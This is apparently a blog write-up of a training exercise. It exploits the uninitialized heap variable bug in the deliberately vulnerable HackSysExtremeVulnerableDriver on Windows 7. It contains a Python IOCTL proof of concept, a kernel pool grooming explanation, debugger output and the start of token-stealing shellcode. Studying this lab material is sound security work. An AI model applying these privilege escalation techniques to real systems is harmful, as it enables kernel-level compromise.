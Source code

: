 ```yaml
---
layout:     post
title:      HackSysExtremeVulnerableDriver UninitializedHeapVariable
author:     wooy0ung
tags:       hevd
category:   exploit
---
```


>[Analysis Environment]  
>guest machine: Windows 7 x86 sp0  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Let's work with the same steps like the last challenge.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
psapi = windll.Psapi
ntdll = windll.ntdll

hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)

if not hevDevice or hevDevice == -1:
   print "[-] Couldn't get Device Driver handle."
   sys.exit(0)

buf = "\xff\xff\xff\xff"

kernel32.DeviceIoControl(hevDevice, 0x222033, buf, len(buf), None, 0, byref(c_ulong()), None)
```

Set a breakpoint at TriggerUninitializedHeapVariable method
```
kd> bp HEVD!TriggerUninitializedHeapVariable+0x119
kd> g
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x983C6F10
[+] UserValue: 0xFFFFFFFF
[+] UninitializedHeapVariable Address: 0x8D6D5BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x05000000
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
957c3e83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x983C6F10
Pool page 983c6f10 region is Paged pool
 983c6000 size:  200 previous size:    0  (Allocated)  MmRe
 983c6200 size:   38 previous size:  200  (Allocated)  CMVa
 983c6238 size:   10 previous size:   38  (Free)       CMVI
 983c6248 size:   50 previous size:   10  (Allocated)  NtFd
 983c6298 size:   e8 previous size:   50  (Allocated)  FMfn
 983c6380 size:   30 previous size:   e8  (Allocated)  CMpb Process: 9352eb88
···
 983c6dd8 size:   58 previous size:   28  (Allocated)  MmRe
 983c6e30 size:   b0 previous size:   58  (Allocated)  NpFc Process: 87ce03a8
 983c6ee0 size:   28 previous size:   b0  (Allocated)  NtFs
*983c6f08 size:   f8 previous size:   28  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
```


## 0x002 Exploit it!

Vulnerability is obvious, I don't want to say any more.
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x001.png)

First, we should know some structure about Lookaside list and ListHead list

Lookaside list is normally organized by Singly Linked List, there is a block's layout on this kind of list after freeing. 
```
| _POOL_HEADER(8 byte) | _SINGLE_LIST_ENTRY(4 byte) | buffer[size] |
```

However, for ListHead list, which is organized by Double Linked List
```
| _POOL_HEADER(8字节) | _LIST_ENTRY(8 byte) | buffer[size] |
```

Now, we pay attention on the vulnerability module
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x002.png)
The member Callback is at the offet of 0x4, that's mean the pool can't allocate by ListHead list, otherwise, "Callback" would be overwrite.

We need to allocate 256 objects of same size and then freeing them, because Lookaside list only manages upto 256 chunks. if increase the number, the allocation would come from ListHead list.
```

```

When our vulnerability method require a 0xf8 size pool, it will get a provioud chunks which organize by Lookaside list, while the content after the offset of 0x4 are no reseting.
```
****** HACKSYS_EVD_IOCTL_UNINITIALIZED_HEAP_VARIABLE ******
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x97F9AB78
[+] UserValue: 0xBAD31337
[+] UninitializedHeapVariable Address: 0x935D7BB8
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x0158D1EC
Breakpoint 0 hit
HEVD!TriggerUninitializedHeapVariable+0x119:
9579de83 ff5004          call    dword ptr [eax+4]
kd> !pool 0x97F9AB78
Pool page 97f9ab78 region is Paged pool
 97f9a638 size:    8 previous size:    0  (Allocated)  Frag
 97f9a640 size:   b0 previous size:    8  (Allocated)  VdPN
 97f9a6f0 size:    8 previous size:   b0  (Free)       Toke
 97f9a6f8 size:   18 previous size:    8  (Allocated)  CMNb (Protected)
 97f9a710 size:   18 previous size:   18  (Allocated)  CMIn (Protected)
 97f9a728 size:    8 previous size:   18  (Free)       CcPh
 97f9a730 size:   18 previous size:    8  (Allocated)  CMIn (Protected)
 97f9a748 size:   40 previous size:   18  (Allocated)  CMDa
 97f9a788 size:   38 previous size:   40  (Allocated)  CMVa
 97f9a7c0 size:   38 previous size:   38  (Allocated)  CMDa
 97f9a7f8 size:   18 previous size:   38  (Allocated)  CMNb (Protected)
 97f9a810 size:   48 previous size:   18  (Allocated)  CMVa
 97f9a858 size:   80 previous size:   48  (Allocated)  CMDa
 97f9a8d8 size:    8 previous size:   80  (Free)       ObNm
 97f9a8e0 size:   18 previous size:    8  (Allocated)  CMVI
 97f9a8f8 size:   20 previous size:   18  (Free)       SeSc
 97f9a918 size:   e0 previous size:   20  (Allocated)  FMfn
 97f9a9f8 size:   38 previous size:   e0  (Allocated)  CMDa
 97f9aa30 size:   18 previous size:   38  (Allocated)  PfFK
 97f9aa48 size:  120 previous size:   18  (Allocated)  FMfn
 97f9ab68 size:    8 previous size:  120  (Free)       FMfn
*97f9ab70 size:   f8 previous size:    8  (Allocated) *Hack
		Owning component : Unknown (update pooltag.txt)
 97f9ac68 size:  118 previous size:   f8  (Allocated)  FMfn
 97f9ad80 size:    8 previous size:  118  (Free)       Toke
 97f9ad88 size:   38 previous size:    8  (Allocated)  CMNb (Protected)
 97f9adc0 size:   38 previous size:   38  (Allocated)  CMNb (Protected)
 97f9adf8 size:   40 previous size:   38  (Allocated)  CMDa
 97f9ae38 size:   20 previous size:   40  (Allocated)  CMNb (Protected)
 97f9ae58 size:   38 previous size:   20  (Allocated)  CMDa
 97f9ae90 size:   60 previous size:   38  (Allocated)  Key  (Protected)
 97f9aef0 size:   38 previous size:   60  (Allocated)  CMNb (Protected)
 97f9af28 size:    8 previous size:   38  (Free)       FMfn
 97f9af30 size:   68 previous size:    8  (Allocated)  FIcs
 97f9af98 size:   68 previous size:   68  (Allocated)  FIcs
```

Now, it will call an uninitialized Addr, which we set up to our shellcode Addr
```
kd> dd 97f9ab70
97f9ab70  061f0201 6b636148 00000000 0158d1ec
97f9ab80  42424242 42424242 42424242 42424242
97f9ab90  42424242 42424242 42424242 42424242
97f9aba0  42424242 42424242 42424242 42424242
97f9abb0  42424242 42424242 42424242 42424242
97f9abc0  42424242 42424242 42424242 42424242
97f9abd0  42424242 42424242 42424242 42424242
97f9abe0  42424242 42424242 42424242 42424242
kd> u 0158d1ec
0158d1ec 90              nop
0158d1ed 90              nop
0158d1ee 90              nop
0158d1ef 90              nop
0158d1f0 60              pushad
0158d1f1 64a124010000    mov     eax,dword ptr fs:[00000124h]
0158d1f7 8b4050          mov     eax,dword ptr [eax+50h]
0158d1fa 89c1            mov     ecx,eax
```

pwn~
![](/assets/img/exploit/2018-08-06-hacksys-extreme-vulnerable-driver-uninitializedheapvariable/0x003.png)